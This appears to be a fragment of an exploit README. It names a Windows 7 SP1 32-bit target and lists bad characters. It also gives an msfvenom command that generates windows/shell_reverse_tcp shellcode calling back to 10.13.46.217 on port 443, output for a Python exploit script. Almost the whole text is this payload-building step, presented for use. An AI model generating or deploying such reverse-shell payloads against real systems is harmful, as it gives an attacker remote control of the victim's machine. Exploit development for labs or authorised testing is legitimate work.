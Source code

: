 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\x16\x2f\xf4\xfd

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\x16\x2f\xf4\xfd" -v esp -f python
